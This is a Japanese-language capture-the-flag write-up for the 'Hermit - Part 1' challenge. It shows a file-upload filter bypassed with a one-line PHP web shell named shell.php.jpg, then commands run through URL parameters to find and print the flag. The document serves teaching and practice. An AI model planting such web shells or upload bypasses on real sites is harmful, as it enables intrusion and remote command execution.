



# Hermit - Part 1

```txt
Help henry find a new shell
http://104.197.195.221:8086 http://34.121.84.161:8086

Hint
How do you know a file is an image?
```

## Solution

問題にアクセスするとファイルをアップロードすることができるページが表示されました。



適当なファイルをアップロードしてみると以下のコメントが表示されました。
```txt
Sorry, only JPG, JPEG, PNG & GIF files are allowed.

Sorry, your file was not uploaded.
Back
```

なので画像をアップロードしてみます。

すると以下のように保存先のディレクトリが表示されて、アップロードした画像にアクセスできるようです。
```txt
The file index.jpg has been uploaded to /var/www/html/uploads/fwjrrh
See Image
```

画像にアクセスするパスは、以下のようになっていました。

`http://104.197.195.221:8086/show.php?filename=fwjrrh`


試しに以下のような簡単な Shell を作成してアップロードしてみます。
```shell
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php.jpg
```

すると上手くアップロードできて、簡単な Shell を実行することができました。

`http://104.197.195.221:8086/show.php?filename=Z9Djnh&cmd=id`



なのでこのまま直接 flga を grep で検索してみると、得ることができました。

`http://104.197.195.221:8086/show.php?filename=Z9Djnh&cmd=grep -r "UMASS" /`



`/home/hermit/flag/userflag.txt:UMASS{a_picture_paints_a_thousand_shells}`

綺麗に flag を表示させる場合は、直接以下のようにして見ることもできました。

`http://104.197.195.221:8086/show.php?filename=Z9Djnh&cmd=cat%20/home/hermit/flag/userflag.txt`

## Flag

flag : `UMASS{a_picture_paints_a_thousand_shells} `